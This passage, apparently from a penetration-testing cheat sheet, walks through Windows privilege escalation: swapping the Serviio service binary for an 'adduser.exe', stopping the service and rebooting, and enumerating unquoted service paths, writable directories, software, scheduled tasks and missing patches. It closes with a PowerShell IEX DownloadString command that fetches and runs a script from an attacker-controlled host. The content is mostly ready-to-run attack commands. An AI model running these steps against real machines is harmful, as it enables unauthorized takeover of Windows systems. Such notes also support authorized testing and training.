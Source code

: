     ```
  - Replace the service executable:
    ```bash
    move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
    move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
    ```
  - Stop the service:
    ```bash
    net stop Serviio
    ```
  - Check service start mode:
    ```bash
    wmic service where caption="Serviio" get name, caption, state, startmode
    ```
  - If set to Auto, reboot the system (if SeShutdownPrivilege is available):
    ```bash
    shutdown /r /t 0
    ```

#### Unquoted Service Paths
Exploit services with unquoted paths containing spaces. Use tools like PowerUp (see below) to automate detection.

#### World-Writable Directories
Identify directories with weak permissions:
```bash
accesschk.exe -uws "Everyone" "C:\Program Files"
```

#### Installed Applications
List installed software versions:
```bash
wmic product get name, version, vendor
```

#### Scheduled Tasks
Enumerate scheduled tasks:
```bash
schtasks /query /fo LIST /v > schedule.txt
```

#### Windows Exploit Suggester
Identify missing patches:
```bash
python windows-exploit-suggester.py --database 2020-08-09-mssb.xls --systeminfo systeminfo.txt
```

#### Sherlock
Automate privilege escalation checks:
1. Append `Find-AllVulns` to `Sherlock.ps1`.
2. Execute:
   ```bash
   echo IEX(New-Object Net.WebClient).DownloadString('http://<attacker_ip>:<port>/Sherlock.ps1') | powershell -noprofile -
   ```
